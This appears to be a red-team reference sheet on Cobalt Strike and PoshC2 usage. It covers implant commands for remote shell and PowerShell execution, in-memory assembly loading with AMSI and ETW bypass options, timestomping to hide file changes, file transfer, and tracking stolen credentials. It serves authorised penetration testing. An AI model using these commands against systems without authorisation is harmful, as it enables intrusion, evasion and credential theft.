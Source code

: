 # __Command & Control framework usage__
>Author: Pieter Miske
---
### __Cobalt strike:__
##### _Start team server and client:_
- Start the CS team server: `./teamserver <IP used by the TS> <new password for TS> <malleable.profile>`
- Start the CS client: `./cobaltstrike`

##### _Basic beacon commands:_
- Listing of the available commands: `help`
- Show the help menu of the selected module: `help <module>`
- List the running jobs of beacon: `jobs`
- Kill selected job: `jobkill <id>`
- Execute OS commands by spawning "cmd\.exe /c": `shell <command> (<arguments>)`
- Execute commands by spawning "powershell\.exe": `powershell <command> (<arguments>)`
- Import a local powershell module in the current beacon process: `powershell-import </path/to/script\.ps1>`
- Execute powershell commands without spawning "powershell\.exe", using only \.net libraries and assemblies: `powerpick <command> (<arguments>)`
- Load and execute a \.NET compiled assembly executable completely in memory: `execute-assembly </path/to/local/tool.exe> (<arguments>)`
- Set the interval and jitter of beacon's call back: `sleep <seconds (e.g. 60)> (<jitter (e.g. 50)>)`
- Download file \(stored on the TS or can be viewed via: View > Downloads\): `download <C:\path to file>`
- Upload file: `upload </path/to/file.exe>`
- Change 'Last Modified" timestamp of an altered file to the timestamp of the original file: `timestomp <new file> <original file>`
- Convert returned error code to error message: `net helpmsg <code>`

##### _Aggressor scripts:_
The following aggressor scripts give some extra functionality to CS\. 
- [InlineExecute\-Assembly](https://github.com/anthemtotheego/InlineExecute-Assembly): this BOF allows in process \.NET assembly execution as an alternative for execute\-assembly module: `inlineExecute-Assembly --dotnetassembly /<path to tool> --assemblyargs <args> --amsi --etw <--pipe | --mailslot> <pmisvc> --appdomain <ConsoleApp1>`
- [Cobalt\-arsenal](https://github.com/mgeeky/cobalt-arsenal): set of aggressor scripts that add or improve default cobalt strike functionalilities\.
- [HelpColer](https://github.com/outflanknl/HelpColor): lists available Cobalt Strike beacon commands and colors them based on their type\.


---
### __PoshC2:__
##### _Running PoshC2:_
- Download and install the open source [PoshC2](https://github.com/nettitude/PoshC2) project: `sudo ./Install.sh`
- Project management: `sudo posh-project <-n <project_name> | -s <project-to-switch-to> | -l (lists projects) | -d <project-to-delete> | -c (shows current project)>`
- Edit the configuration for your project \(atleast modify BindIP/BindPort and PayloadCommsHost\): `sudo posh-config`
- Launch the PoshC2 server: `sudo posh-server`
- Run the ImplantHandler for interacting with implants \(all output of the implants will show up in the server panel\): `sudo posh -u <random username>`
- Update PoshC2: `posh-update`
- Start new display \(log\) panel \(use this if team members log in via ssh\): `posh-log`

##### _Main menu commands:_
- Add compromised credentials/hashes to the database \(accepts only password or hash\): `creds -add -domain=<domain> -username=<username> -password='<password>'|-hash=<hash>`
- Check all compromised \(stored\) credentials: `creds`
- Message other team members: `message "<Message to broadcast>"`
- Get a detailed overview in both html/cvs format about compromised systems, commands executed on each system and gathered \(if added\) credentials: `generate-reports`
- Quick overview of compromised hosts, used URL's, files uploaded and \(if added\) gathered credentials: `opsec`
- Show detailed information about the running server: `show-serverinfo`

##### _General Commands:_
- Get overview of all command: `help`
- Get overview of all available modules: `listmodules`
- Change beacon call\-back time of running implant \(run in implant interface\): `beacon <number in seconds>s`
- Set beacon call\-back time for new implants \(run in "select implant" interface\): `set-defaultbeacon <number in seconds>s`
- Label an implant with text: `label-implant <label text>`
- Load PowerShell script in C\# implant: `pslo <scriptname.ps1>`
- Execute PowerShell command in C\# implant: `sharpps <normal PS syntax>`
- Upload file \(if the source address is not correct it will completely brake the C2 server\): `upload-file -source /<local path> -destination "C:\Users\Public\Documents\<file>"`
- Download file \(stored in /var/poshc2/<project>/downloads/\): `download-file "c:\<path to file>"`
- Run C\# \.NET binaries \(\.exe and \.dll\):
	- 1\. Add C\# \.NET assembly in the ‘modules’ folder and load the module: `loadmodule <name executable>`   
	- 2\. Run C\# binary \(if the program is not giving any output, the only solution is to respawn a C\# implant\): `run.exe <namespace>.<classname> <assembly name> <args>`

##### _Tips & Tricks:_
- In the file “/PoshC2/resources/urls\.txt” you can specify multiple URL's that the beacons will use\.
- PowerShell implants will automaticly migrade to a new process that is specified in the posh\-config file "DefaultMigrationProcess" attribute\.  
- Quickstart document can be found in "/var/poshc2/<project name>/quickstart\.txt"
- All payloads are stored in "/var/poshc2/<project name>/payloads/"
- Create an alias for a C\# assembly or powershell script "/opt/Poshc2/poshc2/client/Alias\.py"
- All downloaded files and screenshots are stored in the directory "/var/poshc2/<name project>/downloads/"


